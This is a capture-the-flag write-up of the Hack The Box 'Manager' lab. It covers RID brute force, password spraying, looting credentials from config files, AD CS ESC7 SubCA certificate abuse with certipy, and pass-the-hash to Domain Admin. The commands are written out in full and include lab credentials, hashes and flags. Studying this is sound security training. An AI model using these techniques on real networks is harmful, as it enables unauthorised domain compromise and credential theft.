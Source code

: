# 🧑‍💻 Hack The Box – Manager

## 📌 Overview
- **Machine Name:** Manager
- **IP Address(es):** 10.10.11.236
- **Difficulty:** Medium
- **OS:** Windows
- **Tags:** SMB / MSSQL / Web Config Loot / WinRM / AD CS (ESC7 → SubCA abuse) / Pass-the-Hash
- **Date Completed:** 2025.09.02
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -p- -Pn -oA nmap/manager 10.10.11.236 -T5
```

**Key findings:**
- Domain: `manager.htb`
- Web service (80) → “Manager” page
- MSSQL (1433) exposed
- Standard AD services (Kerberos, LDAP, SMB, WinRM)
- Certificate Services visible on domain (`dc01.manager.htb`)

---

## 📂 SMB Enumeration
```zsh
nxc smb manager.htb -u 'a' -p '' --shares
```
```
[*] Enumerated shares
IPC$ → READ
```

Enumerated users with RID brute force:
```zsh
nxc smb 10.10.11.236 -u 'Guest' -p '' --rid-brute
```

- Built a user list.  
- Password spray with username = password revealed a valid account:

```zsh
nxc smb manager.htb -u operator -p operator
[+] manager.htb\operator:operator
```

---

## 🗄️ MSSQL Enumeration
Logged in as operator to MSSQL and enumerated files.

```zsh
impacket-mssqlclient manager.htb/operator:operator@10.10.11.236 -windows-auth
```

Discovered old web backup:
```
website-backup-27-07-23-old.zip
```

Inside `.old.conf.xml` → hardcoded credentials:
```xml
<access-user>
  <user>raven@manager.htb</user>
  <password>R4v3nBe5tD3veloP3r!123</password>
</access-user>
```

---

## 🧭 BloodHound (Phase 1) – Raven
Collected domain data:
```zsh
bloodhound-ce-python -d manager.htb -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -c all -gc 10.10.11.236
```

- `Raven` has **WinRM access**.  

### Foothold
```zsh
evil-winrm -i 10.10.11.236 -u 'Raven' -p 'R4v3nBe5tD3veloP3r!123'
*Evil-WinRM* PS C:\Users\Raven\Desktop> type user.txt
94c90d8dc60ed0d67bd34851b0cd3081
```

✅ User shell obtained.

---

## 🧭 AD CS Enumeration
Found enterprise CA: **`manager-DC01-CA`**.

- Raven has **ManageCA** rights → can manipulate templates and officers.

Check vulnerable templates:
```zsh
certipy find -dc-ip 10.10.11.236 -u 'raven@manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout -enable
```

Key finding:
- Able to enable and abuse **SubCA** template (ESC7).

---

## 🚀 Privilege Escalation – AD CS ESC7 Abuse
1. Add Raven as CA officer:
```zsh
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

2. Enable vulnerable SubCA template:
```zsh
certipy ca -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -enable-template 'SubCA'
```

3. Request SubCA cert as Administrator:
```zsh
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -template SubCA -upn administrator@manager.htb
```

- Request failed (expected) but gave request ID.

4. Issue the request manually:
```zsh
certipy ca -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -issue-request 25
```

5. Retrieve certificate:
```zsh
certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -retrieve 25
[*] Saved certificate and private key to 'administrator.pfx'
```

6. Authenticate with Administrator’s cert:
```zsh
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

7. Pass-the-Hash for DA shell:
```zsh
evil-winrm -i 10.10.11.236 -u Administrator -H ae5064c2f62317332c88629e025924ef
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
1ba1f70074d8cdee7f4884621bc398c6
```

✅ Full domain compromise.

---

## 🏁 Flags
- **User.txt:** `94c90d8dc60ed0d67bd34851b0cd3081`
- **Root.txt:** `1ba1f70074d8cdee7f4884621bc398c6`

---

## 🧠 Lessons Learned
**Technical**
- SMB RID brute force is still effective for username discovery.
- MSSQL often hides loot in web backups and config files.
- AD CS misconfigurations (ESC7 + ManageCA) can escalate directly to Domain Admin.
- Pass-the-Hash remains a reliable method once an admin hash is obtained.

**Personal**
- Reusing username = password is a major risk in enterprise AD.
- Checking old config files and backups consistently pays off.
- Don’t stop after finding ManageCA — escalate templates for persistence and escalation.

**Reusable Techniques**
- RID brute force → password spray with `username=username`.
- Loot web backups → extract creds from `.config`/`.xml`.
- Abuse AD CS officer + template permissions with `certipy`.
- SubCA template + cert issuance → Administrator cert → PTH to DA.
